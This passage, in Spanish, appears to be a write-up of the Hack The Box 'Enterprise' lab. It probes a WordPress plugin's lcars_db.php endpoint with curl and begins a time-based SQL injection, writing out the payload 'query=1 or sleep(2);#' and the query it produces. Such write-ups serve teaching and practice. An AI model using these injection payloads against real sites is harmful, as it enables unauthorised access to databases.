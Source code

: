 Veamos:

```bash
❭ curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars_dbpost.php
Failed to read query
```

Y:

```bash
❭ curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars_dbpost.php?query=1
Hello world!
❭ curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars_dbpost.php?query=2
 
❭ curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars_dbpost.php?query=hola
```

Con esta consulta tambien podemos jugar a ver si podemos explotar alguna **inyeccion SQL**, a darle...

...

## Explotación [#](#explotacion) {#explotacion}

Como vimos antes, si hacemos una consulta hacia el recurso `lcars_db.php` vemos:

```bash
❭ curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=a
 
```

Nos responde, pero si hacemos la consulta con un numero, obtenemos:

```bash
❭ curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1
<br />
<b>Catchable fatal error</b>:  
Object of class mysqli_result could not be converted to string in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>16</b>
<br />
```

Nos indica que el resultado no puede ser convertido a una cadena de caracteres. 

Jmm, ¿será que nos podemos aprovechar de esto? Pues sí, podemos indicarle, si hay algún problema con la consulta hacia el **ID** `1`, entonces hazme otra cosa, como por ejemplo demorar la respuesta X tiempo con la consulta `SLEEP(<tiempo>)`, la también llamada **SQL injection - Time based**. Entonces la petición quedaría asi:

```html
http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 or sleep(2);#
```

* Con `;#` le indicamos que todo lo que vaya después lo tome como comentarios.

Si lo extrapolamos a como viajaría la consulta hacia la base de datos, quedaría asi:

```sql
SELECT ID FROM wp_posts WHERE post_name = 1 or sleep(2);#;
```
